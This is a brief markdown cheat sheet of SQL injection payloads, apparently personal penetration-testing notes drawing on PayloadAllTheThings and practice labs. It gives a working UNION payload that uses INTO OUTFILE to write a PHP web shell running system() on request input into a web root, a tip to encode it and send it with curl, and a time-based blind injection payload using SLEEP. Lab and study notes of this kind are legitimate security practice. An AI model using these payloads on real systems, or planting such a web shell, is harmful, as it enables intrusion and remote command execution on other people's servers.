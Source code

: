 # SQL Injection

## Into outfile method (PayloadAllTheThings)
- SQL Injection write to file via shell
```
test' union select '<?php echo system($_REQUEST["bingo"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

- If it does not work, encode all characters and send via `curl`.

## Blind
```
TEST' UNION SELECT SLEEP(10);-- -
```
- PG-Practice Blind SQL Injection, check for walkthrough
